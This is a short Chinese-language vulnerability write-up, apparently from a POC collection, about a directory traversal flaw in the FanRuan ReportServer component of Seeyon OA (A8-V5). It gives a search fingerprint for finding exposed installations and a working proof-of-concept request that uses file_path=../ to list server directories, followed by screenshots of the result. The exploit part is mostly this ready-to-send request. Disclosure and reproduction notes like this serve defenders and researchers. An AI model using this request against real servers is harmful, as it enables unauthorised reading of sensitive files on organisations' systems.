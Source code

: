 # 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
致远OA 帆软组件
```

## 网络测绘

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞复现

登录页面

![image-20220824142626725](images/202208241426793.png)

验证POC

```
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![image-20220824142642510](images/202208241426552.png)